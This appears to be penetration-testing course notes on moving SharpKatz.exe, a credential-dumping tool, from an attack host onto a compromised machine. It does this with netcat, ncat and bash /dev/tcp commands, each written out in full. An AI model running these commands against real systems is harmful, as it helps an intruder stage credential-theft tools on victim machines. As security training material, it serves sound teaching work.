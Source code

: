 -----
In this example, we'll transfer [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) from our Pwnbox onto the compromised machine. We'll do it using two methods. Let's work through the first one.


#### NetCat - Compromised Machine - Listening on Port 8000
- Start Netcat (nc) with the listening option `-l`, selecting the port to listen with the option `-p 8000` and redirect the stdout using the single greater than `>` followed by the filename.

```bash
nc -l -p 8000 > SharpKatz.exe
```

#### Netcat - Attack Host - Sending File to Compromised machine

```bash
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```

- From our attack host we connect to the target machine on port 8000 and send the file as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes.

```bash
nc -q 0 <target-ip> 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections.

#### Attack Host - Sending File as Input to Netcat
```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File

```bash
nc <attack-host-ip> 443 > SharkKatz.exe
```

---
#### Ncat - Compromised Machine - Listening on Port 8000
- If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.
```bash
ncat -l -p 8000 -recv-only > SharpKatz.exe
```
##### Ncat - Attack Host - Sending File to Compromised machine

 - By utilizing Ncat, we can opt for `--send-only` rather than `-q`.

```bash
ncat --send-only <target-ip> 8000 < SharpKatz.exe
```

#### Attack Host - Sending File as Input to Ncat

```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File

```bash
ncat <attack-host-ip> 443 --recv-only > SharpKatz.exe
```

---
If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file `/dev/TCP/`.

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

```bash
cat < /dev/tcp/<attack-host-ip>/443 > SharpKatz.exe
```

